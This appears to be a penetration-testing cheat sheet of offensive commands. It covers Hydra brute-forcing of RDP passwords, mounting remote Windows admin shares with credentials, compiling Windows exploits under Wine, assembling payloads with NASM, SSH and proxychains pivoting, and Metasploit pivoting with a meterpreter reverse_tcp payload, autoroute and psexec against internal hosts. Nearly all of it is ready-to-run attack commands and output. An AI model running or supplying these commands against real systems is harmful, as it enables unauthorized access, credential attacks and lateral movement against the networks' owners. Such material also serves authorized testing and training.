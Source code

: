 	Get PIDs of process
	fuser -nv tcp 80
	fuser -k -n tcp 80


	Hydra rdp Bruteforce
	hydra -l admin -P /root/Desktop/passwords -S X.X.X.X rdp


	Mount Remote Windows Share
	smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw

	Compiling Exploit in Kali
	gcc -m32 -o output32 hello.c (32 bit)
	gcc -m64 -o output hello.c (64 bit)


	Compiling Windows Exploits on Kali
	wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
	wine mingw-get-setup.exe
	select mingw32-base
	cd /root/.wine/drive_c/windows
	wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
	cd /root/.wine/drive_c/MinGW/bin
	wine gcc -o ability.exe /tmp/exploit.c -lwsock32
	wine ability.exe


	NASM Commands
	nasm -f bin -o payload.bin payload.asm
	nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload


	SSH Pivoting
	ssh -D 127.0.0.1:1080 -p 22 user@IP
	Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
	proxychains commands target


	SSH Pivoting from One Network to Another
	ssh -D 127.0.0.1:1080 -p 22 user1@IP1
	Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
	proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
	Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
	proxychains commands target


	Pivoting Using metasploit
	route add X.X.X.X 255.255.255.0 1
	use auxiliary/server/socks4a
	run
	proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

	or

	# https://www.offensive-security.com/metasploit-unleashed/pivoting/
	meterpreter > ipconfig
	IP Address  : 10.1.13.3
	meterpreter > run autoroute -s 10.1.13.0/24
	meterpreter > run autoroute -p
	10.1.13.0          255.255.255.0      Session 1
	meterpreter > Ctrl+Z
	msf auxiliary(tcp) > use exploit/windows/smb/psexec
	msf exploit(psexec) > set RHOST 10.1.13.2
	msf exploit(psexec) > exploit
	meterpreter > ipconfig
	IP Address  : 10.1.13.2
